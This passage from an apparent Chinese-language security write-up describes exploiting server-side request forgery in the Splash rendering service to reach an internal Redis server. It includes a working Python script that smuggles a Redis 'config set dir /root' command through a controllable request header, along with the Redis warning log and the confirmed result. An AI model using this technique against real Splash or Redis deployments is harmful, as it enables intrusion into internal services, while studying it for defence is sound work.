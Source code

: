 **其他利用思路**

其他思路的话，首先想到 ssrf 配合 gopher 协议，然后结合内网 redis，因为splash是基于qt的， 查了一下文档 ，qtwebkit 默认不支持 gopher 协议，所以无法使用 gopher 。

后来经过测试，发现请求 headers 可控 ，并且支持 n 换行

这里测试选择了 redis 3.2.8 版本，以root权限运行，监听在 172.16.10.74，测试脚本如下，可以成功执行



```
# -*- coding: utf-8 -*-
__author__ = 'b1ng'
import requests
def test_get(api, redis_api):
    url = "%s/render.html" % api
    params = `{`
        'url': redis_api,
        'timeout': 10
    `}`
    resp = requests.post(url, params=params, json=`{`
        'headers': `{`
            'config set dir /rootn': '',
        `}`,
    `}`)
    print(resp.request.url)
    print(resp.status_code)
    print(resp.text)
if __name__ == '__main__':
    # splash地址和端口
    splash_host = '192.168.1.120'
    splash_port = 8050
    # 内网docker的地址和端口
    docker_host = '172.16.10.74'
    docker_port = 6379
    splash_api = "http://%s:%d" % (splash_host, splash_port)
    docker_api = 'http://%s:%d' % (docker_host, docker_port)
    test_get(splash_api, docker_api)
```



```
运行后 redis 发出了警告 (高版本的新功能)
24089:M 11 Jul 23:29:07.730 - Accepted 172.17.0.2:56886
24089:M 11 Jul 23:29:07.730 # Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted.
```

但是执行了



```
172.16.10.74:6379&gt; config get dir
1) "dir"
2) "/root"
```
